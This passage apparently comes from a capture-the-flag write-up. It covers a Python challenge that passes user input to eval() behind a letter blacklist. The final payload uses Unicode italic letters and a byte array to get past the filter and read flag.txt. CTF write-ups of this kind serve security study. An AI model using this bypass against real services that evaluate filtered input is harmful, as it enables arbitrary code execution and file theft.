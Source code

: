 
```python
#!/usr/bin/env python3

print('''\033[94m
♡ ☆ .♡‧₊˚ 
╭◜◝ ͡ ◜◝╮  ㅤ ╭◜◝ ͡ ◜◝╮. 
(             )  ♡   (             )☆ ♡
╰◟◞ ͜ ◟◞╭◜◝ ͡ ◜◝╮ ͜ ◟◞╯♡ 
. ☆  ㅤㅤ(                )☆ ♡
♡        ╰◟◞ ͜ ◟◞╯ . ☆

    [Secure Dream v1.0]
\033[0m''')

payload = input("What is your dream in life?\n")
if any(filter(lambda c: c in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"\'+', payload)):
    print("\nA𝒘𝒘... W𝒆 𝒅𝒐𝒏'𝒕 𝒖𝒏𝒅𝒆𝒓𝒔𝒕𝒂𝒏𝒅 𝒚𝒐𝒖𝒓 𝒅𝒓𝒆𝒂𝒎 :(")
else:
    eval(payload)

```

</div>

#### Observation

Secure Dream v2.0 is just the same as v1.0 but with `+` character blacklisted

#### Solution

My solution for v1.0 did not use the `+` character so I solved this question with the same payload

Final payload

```python
𝒆𝒗𝒂𝒍(𝒃𝒚𝒕𝒆𝒔([112, 114, 105, 110, 116, 40, 111, 112, 101, 110, 40, 34, 102, 108, 97, 103, 46, 116, 120, 116, 34, 41, 46, 114, 101, 97, 100, 40, 41, 41]).𝒅𝒆𝒄𝒐𝒅𝒆())
```

## OSINT

### Where Am I



> Find the place. (Caught in a landside, No escape from reality)

